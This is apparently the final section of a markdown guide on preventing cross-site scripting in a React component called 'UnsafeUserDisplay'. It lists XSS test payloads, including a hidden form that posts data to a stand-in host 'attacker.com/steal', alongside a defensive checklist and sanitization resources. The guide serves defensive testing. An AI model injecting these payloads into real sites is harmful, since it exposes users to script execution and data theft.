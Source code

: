 
## 🔍 Testing Security

### **XSS Test Cases:**
```javascript
// Test these payloads against your secure components
const xssTests = [
  '<script>alert("XSS")</script>',
  '<img src=x onerror=alert("XSS")>',
  '<svg onload=alert("XSS")>',
  'javascript:alert("XSS")',
  '<iframe src="javascript:alert(\'XSS\')">',
  '<object data="javascript:alert(\'XSS\')">',
  '<embed src="javascript:alert(\'XSS\')">',
  '<form action="https://attacker.com/steal" method="POST">',
  '<input type="hidden" name="data" value="sensitive">',
  '</form>'
];
```

### **Security Checklist:**
- [ ] No `<script>` tags in output
- [ ] No event handlers (`onclick`, `onload`, etc.)
- [ ] No `javascript:` URLs
- [ ] No `data:` URLs
- [ ] No `file:` URLs
- [ ] Input length limits enforced
- [ ] Content type validation
- [ ] CSP headers configured
- [ ] HTTPS for external resources
- [ ] Regular security testing

---

## 📚 Additional Resources

- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [DOMPurify Documentation](https://github.com/cure53/DOMPurify)
- [React Security Best Practices](https://reactjs.org/docs/security.html)
- [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)

---

## 🏆 Conclusion

The `UnsafeUserDisplay` component represents a **critical security vulnerability** that should never be used in production applications. Always use secure alternatives like:

1. **DOMPurify** for HTML sanitization
2. **Text-only display** for maximum security
3. **Markdown rendering** for structured content
4. **Proper input validation** and output encoding

**Remember**: Security is not optional - it's essential for protecting your users and your application.
